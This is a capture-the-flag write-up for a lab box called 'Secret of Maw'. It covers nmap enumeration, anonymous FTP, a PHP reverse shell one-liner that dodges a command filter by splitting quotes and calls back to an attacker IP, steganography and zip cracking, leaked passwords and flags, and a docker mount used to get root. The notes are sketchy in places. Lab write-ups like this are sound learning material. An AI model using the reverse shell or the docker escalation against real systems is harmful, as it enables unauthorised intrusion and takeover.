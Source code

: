 # Secret of Maw

## Enumeration
```bash
tarting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-20 13:54 BST
Nmap scan report for 10.10.29.3
Host is up (0.037s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Maw
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.94 seconds
```
```bash
ftp <IP>

get .nomes

└─$ cat nomes 
You find a nome hidding around, you hug it... You feel a little bit relieved!
```
```
/discrete
```
## Exploitation

### On this page we can execute a command but there are shell restrictions

```bash
'p''h''p' -r '$sock=fsockopen("10.8.37.214",4445);exec("sh <&3 >&3 2>&3");'
```

### I got a shell as six user
### I upgrade my shell with this command
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Privilege Escalation
```bash
sudo -u six /home/six/.musicbox

cd /home/six
```

## User FLAG
```cat user.txt``` : EPI{I_MuS7_F1nD_@_W4y_0Ut}

### I used wget to download the files in /var/www 
```bash
└─$ stegseek musicbox.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "nightmare"
[i] Original filename: "backup.zip".
[i] Extracting to "musicbox.jpg.out"
```

### I thought I had found something but it was a rabbit hole
```bash
mysql -u root -p : !@m+her00+@db

mono : a596a5afee6659e857db41cd41497102 : not found 

└─$ echo SV9NdVN0X1N0MHBfVGgzX1RoaW5fbTRu | base64 -d
I_MuSt_St0p_Th3_Thin_m4n 
```
### I used zip2john to crack the backup.zip password

I forgot to write the command

### I got a hash that I cracked with john
```bash
unzip backup.zip : Telekinesis
```
### In the file of the .zip folder, I found a password hash in base64
### I go on the ssh session of the user, I did sudo -l and found a command with specific write using docker
```
docker run -it -v /:/mnt alpine chroot /mnt
```
## Root FLAG
```cat /root/root.txt``` : EPI{Th3_Th1N_M4n_1S_C0m1Ng}

### Source 
https://tiagotavares.io/2020/12/chillhack-1-vulnhub/ | https://blog.keiran.scot/privilege-escallation-with-docker-56dc682a6e17



